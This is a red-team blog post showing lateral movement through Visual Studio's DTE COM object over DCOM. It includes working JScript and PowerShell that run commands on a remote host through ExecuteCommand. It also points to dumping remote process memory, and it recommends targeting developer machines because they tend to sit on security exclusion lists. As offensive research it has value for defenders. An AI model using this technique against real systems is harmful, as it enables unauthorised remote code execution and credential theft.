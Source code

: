 ```yaml
---
title: "Developers are juicy targets: DCOM & Visual Studio"
date: 2023-12-23 00:00:00 +00:00
modified: 2023-12-23 00:00:00 +00:00
tags: [red team, research, dcom, lateral movement, DTE, Visual Studio, X-C3LL]
description: Umpteenth time that you will see a lateral movement based on DCOM. This time it's Visual Studio.
image: 
---
```


Dear Fell**owl**ship, today's homily is about the umpteenth DCOM-based lateral movement method you'll see, this time targeting that blessing that populates any company: developers. Dreaded users whose machines are often found on quite a few exclusion lists to avoid the myriad of false positives they generate with their work.

# Prayers at the foot of the Altar a.k.a. disclaimer

*I know that DCOM is widely used and documented, and tons of methods to achieve code execution are public. But is xmas eve and I wanted to publish something before the end of the year. It's a quick post, but maybe it can be helpful to someone.*

# Introduction

A few hours ago I started to dig into anti-debugging techniques that could be applied to `jscript` (in fact that was my original idea for my end-of-the-year post after [this conversation with Rio](https://twitter.com/TheXC3LL/status/1737447578168332421)), but then I started to fall down a rabbit hole.

I was playing with [OleViewDotNet](https://github.com/tyranid/oleviewdotnet) when I found an interesting interface called **`Debugger`**. I started to scratch beneath the surface and found out that the COM object is from Visual Studio. More precisely, it is the **"DTE"** or "[Development Tools Environment](https://learn.microsoft.com/es-es/dotnet/api/envdte.dte?view=visualstudiosdk-2022)".

To be completely honest it was the first time hearing that term, but a quick Google search showed that it is something hyper-mega-known among developers and there are huge amounts of documentation and posts about it. Shame on me.

# Local 

The MSDN documentation shows that there is a method called [`ExecuteCommand`](https://learn.microsoft.com/en-us/dotnet/api/envdte._dte.executecommand?view=visualstudiosdk-2019) that can be used to run a program from the command line. Let's try it:

```js
var vs = new ActiveXObject("VisualStudio.DTE");
//vs.MainWindow.Visible = true;
vs.ExecuteCommand("Tools.Shell", "calc.exe");
```

<figure>
<img src="/Visual-Studio-DCOM/calc-local.jpeg" alt="Calculator being executed"> 
<figcaption>
Calculator being executed
</figcaption>
</figure>

So far, so good.

# Remote

If you have to pwn a machine inside a big company and want to keep the alerts at minimum... who is your target? Probably people that works in IT or developers. The amount of false positives from their machines usually makes them the perfect target to use as a pivot in an intrusion. And Visual Studio is hugely adopted in these environments.

In order to call the COM object in the remote machine we need local administrator privileges (this is usually the minimum bar when performing lateral movements so nothing new). Just use the CLSID for **`VisualStudio.DTE`** (it varies between versions and here I am using VS 2019, if you do not know the version of the target just bruteforce the most common ones):

```powershell
PS C:\Windows\system32> $com = [System.Activator]::CreateInstance([type]::GetTypeFromCLSID("2E1517DA-87BF-4443-984A-D2BF18F5A908","192.168.56.20"))
PS C:\Windows\system32> $com.ExecuteCommand("Tools.Shell", "cmd.exe /c echo PWNED! > c:\dcom.txt")
PS C:\Windows\system32> type \\192.168.56.20\C$\dcom.txt
PWNED!
```

As stated at the beginning of the post, all started because of an interface called **`Debugger`**, which of course allows to do more things like for example enumerating remote processes...

<figure>
<img src="/Visual-Studio-DCOM/processes.jpeg" alt="Process List"> 
<figcaption>
List of process in the remote machine
</figcaption>
</figure>

...and more creative stuff like pausing a process (*wink wink* **;D**) attaching the debugger and inserting a [breakpoint](https://learn.microsoft.com/en-us/dotnet/api/envdte80.debugger2.break?view=visualstudiosdk-2022#envdte80-debugger2-break(system-boolean)). You could also [read process memory](https://learn.microsoft.com/en-us/visualstudio/ide/reference/list-memory-command?view=vs-2022) or go full YOLO mode and [MiniDump](https://learn.microsoft.com/en-us/dotnet/api/envdte80.debugger2.writeminidump?view=visualstudiosdk-2022) it.

# EoF

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).
